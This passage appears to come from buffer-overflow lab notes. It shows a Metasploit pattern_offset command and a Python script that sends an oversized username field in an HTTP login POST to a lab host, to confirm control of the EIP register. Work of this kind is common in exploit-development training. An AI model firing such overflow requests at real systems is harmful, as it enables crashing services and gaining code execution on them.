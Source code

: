 

```
msf-pattern_offset -l 800 -q  <number of EIP>
```

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption><p>oFFSET </p></figcaption></figure>

```python
#!/usr/bin/python
import socket

inputBuffer ="A"*780+'BBBB'+'C'*(800-780-4)

payload = "username=" + inputBuffer + "&password=A"
req=""
req = "POST /login HTTP/1.1\r\n"
req += "Host: 192.168.1.5\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Referer: http://192.168.1.5/login\r\n"
req += "Connection: close\r\n"
req += "Content-Type: application/x-www-form-urlencoded\r\n"
req += "Content-Length: "+str(len(payload))+"\r\n"
req += "\r\n"
req += payload

print req
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.5", 80))
s.send(req)
print s.recv(1024)
s.close()
```

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>
